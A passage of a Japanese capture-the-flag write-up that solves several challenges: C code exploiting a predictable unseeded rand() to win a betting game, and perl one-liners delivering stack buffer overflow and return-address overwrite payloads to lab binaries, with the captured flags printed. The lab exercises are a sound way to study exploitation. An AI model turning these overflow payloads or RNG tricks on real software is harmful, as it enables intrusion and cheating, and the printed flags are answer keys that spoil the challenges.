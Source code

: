 大体こんな感じです。

```c
#include <stdio.h>
#include <stdlib.h>
int main(void) {
  int i;
  for (i = 0; i < 10; i++) {
    printf("%d\n", rand() % 5 == 0);
  }
  return 0;
}
```

あとは勝てるときには最大値を賭け、負けるときには最小値を賭けるだけです。

```c
#include <stdio.h>
#include <stdlib.h>
int main(void) {
  int x = 0;
  while (x < 21) {
    if (rand() % 5 == 0) {
      puts("99999999");
      x++;
    } else {
      puts("1");
    }
  }
  return 0;
}
```

```
m4by3_w3_c0u1d_h4v3_d0n3_th47_b3t7er
```

### Doubly Dangerous (110)

スタック BOF。

```
$ cd /problems/doubly_dangerous
$ perl -e 'print "A" x 64 . "\x00\x80\x34\x41"' | ./doubly_dangerous
```

```
bofs_and_floats_are_d0uble_tr0uble!
```

### Simple Rop (120)

スタック BOF。

```
$ objdump -d /problems/simple-rop/simple-rop | grep print_flag           
0804851a <print_flag>:
$ cd /problems/simple-rop
$ perl -e 'print "A" x 76 . "\x1a\x85\x04\x08"' | simple-rop
```

